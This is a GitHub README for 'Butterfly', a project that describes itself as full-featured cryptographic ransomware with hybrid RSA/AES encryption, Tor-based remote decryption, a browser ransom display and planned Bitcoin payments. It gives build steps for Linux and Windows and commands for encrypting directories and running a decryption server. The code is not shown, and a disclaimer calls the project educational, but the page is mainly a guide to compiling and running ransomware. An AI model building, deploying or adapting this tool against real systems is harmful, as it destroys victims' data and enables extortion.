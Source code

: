 # Butterfly
[![Build Status](https://jenkins.bierschi.com/buildStatus/icon?job=butterfly%2Fmaster)](https://jenkins.bierschi.com/job/butterfly/job/master/)
[![License: MIT](https://img.shields.io/badge/License-MIT-green.svg)](https://github.com/bierschi/butterfly/blob/master/LICENSE)
<!--[![Linux](https://svgshare.com/i/Zhy.svg)](https://svgshare.com/i/Zhy.svg)-->
<!--[![Windows](https://svgshare.com/i/ZhY.svg)](https://svgshare.com/i/ZhY.svg)-->
<!--[![macOS](https://svgshare.com/i/ZjP.svg)](https://svgshare.com/i/ZjP.svg)-->

<p align="left">
<img src="images/butterfly.png" width="300" height="300">
</p>

Butterfly is a cryptographic ransomware with the following features

- Hybrid Encryption (RSA Asymmetric/AES Symmetric Encryption) :heavy_check_mark:
- Offline Encryption :heavy_check_mark:
- Supports multiple Operating Systems (Linux :heavy_check_mark:, Windows :arrows_counterclockwise:, MacOS :x:)
- Supports over 300 File Extensions :heavy_check_mark:
- Webserver [bflyServerApp](https://github.com/bierschi/butterfly/tree/master/webserver) for a secure remote decryption :heavy_check_mark:
- Ransom Visualization with Browser :heavy_check_mark: GUI :x: Wallpaper :x:
- Decryption over a Tor Hidden Service :heavy_check_mark:
- Connection to the TOR Network :heavy_check_mark:
- Bitcoin Payments :arrows_counterclockwise:

## Disclaimer

Butterfly is a full-featured cryptographic ransomware application that irrevocably encrypts your data. This means careless
use leads to permanent data loss.
The main purpose for the butterfly project was to build knowledge related to the increased occurrence of ransomwares. <br>

:exclamation: **Butterfly was never supposed to harm or threat other computers** :exclamation:

## Dependencies

Install compilers for the toolchain
<pre><code>
# GCC on Ubuntu
sudo apt-get install gcc g++

# Windows cross compiler for Ubuntu
sudo apt-get install mingw-w64
</code></pre>

Install openssl and boost filesystem libraries
<pre><code>
sudo apt-get install -y libssl-dev libboost-filesystem-dev
</code></pre>

If you enable the logging definition with cmake you also need to install the boost logging library
<pre><code>
sudo apt-get install -y libboost-log-dev
</code></pre>

## Build Butterfly

#### Build butterfly for Linux
<pre><code>
# Clone the repo and create the build/ folder
git clone https://github.com/bierschi/butterfly.git && cd butterfly
mkdir build_linux && cd build_linux

# Execute cmake with options
cmake -DCMAKE_TOOLCHAIN_FILE=../linux.cmake ../
(cmake -DCMAKE_TOOLCHAIN_FILE=../linux.cmake -DUNITTESTS=ON -DLOGGING=ON ../)

# Build the binary
make
</code></pre>

CMake Arguments 
<pre><code>
-DUNITTESTS=ON   # Enables the Unit Tests
-DLOGGING=ON     # Enables the boost logging framework
</code></pre>

#### Build butterfly for Windows

<pre><code>

# Clone the repo and create the build/ folder
git clone https://github.com/bierschi/butterfly.git && cd butterfly
mkdir build_windows && cd build_windows

# Execute cmake with options
cmake -DCMAKE_TOOLCHAIN_FILE=../windows.cmake ../

# Build the binary
make
</code></pre>

## Usage and Examples

Print the available arguments for butterfly
<pre><code>
./butterfly --help
</code></pre>

<pre><code>
butterfly is a cryptographic ransomware

Usage: 
	butterfly --dir /home/butterfly/data/
	butterfly --dir /home/butterfly/data/ --protected

	butterfly --encrypt /home/butterfly/data/ 
	butterfly --decrypt /home/butterfly/data/ 
	butterfly --decrypt /home/butterfly/data/ --tor

	butterfly --decrypt /home/butterfly/data/ --key /home/butterfly/butterfly/masterkeys/SPrivateRSA.pem

Options:
	-d,   --dir         Directory path to start the cryptographic ransomware (Encryption+Visualization+Payment+Decryption)
	-enc, --encrypt	    Encrypts all files in provided directory path and shows the ransom visualization
	-dec, --decrypt	    Decrypts all files in provided directory path, if the request to the remote server was successful
	-t,   --tor	    Remote decryption over the TOR network
	-k,   --key         Masterkey for the decryption, if the remote server is not used (Corresponds to the embedded server public key)
	-p,   --protected   Saves all key files to the system (For manual decryption)
	-c,   --config	    Logger config path
	-v,   --version	    Show version information and quit
	-h,   --help	    Show this message and quit

butterfly homepage at: https://github.com/bierschi/butterfly
</code></pre>


### Full Features of `butterfly`

<pre><code>
# Run the bflyServerApp for remote decryption
bflyServerApp --host 127.0.0.1 --port 8080 --key ../masterkeys/SPrivateRSA.pem

# Run the butterfly binary with --dir argument
./butterfly --dir /home/butterfly/data/
</code></pre>

### Encryption Feature of `butterfly`

<pre><code>
# Use butterfly with the --encrypt argument
./butterfly --encrypt /home/butterfly/data
</code></pre>

### Decryption Feature of `butterfly`

<pre><code>
# Run the bflyServerApp for remote decryption
bflyServerApp --host 127.0.0.1 --port 8080 --key ../masterkeys/SPrivateRSA.pem

# Use butterfly with the --decypt argument
./butterfly --decrypt /home/butterfly/data
</code></pre>


## Unit Tests

Install GTest
<pre><code>
sudo apt-get install libgtest-dev
cd /usr/src/gtest
sudo cmake CMakeLists.txt
sudo make

#copy or symlink libgtest.a and libgtest_main.a to your /usr/lib folder
sudo cp *.a /usr/lib
</code></pre>

Enable the Unit Tests with 
<pre><code>
cmake -DCMAKE_TOOLCHAIN_FILE=../linux.cmake -DUNITTESTS=ON ../
</code></pre>

List all tests
<pre><code>
./butterflyUnitTests --gtest_list_tests
</code></pre>

Run the `butterfly` units
<pre><code>
./butterflyUnitTests
</code></pre>

## Changelog
All changes and versioning information can be found in the [CHANGELOG](https://github.com/bierschi/butterfly/blob/master/CHANGELOG.md)

## License
Copyright (c) 2021 Bierschneider Christian. See [LICENSE](https://github.com/bierschi/butterfly/blob/master/LICENSE)
for details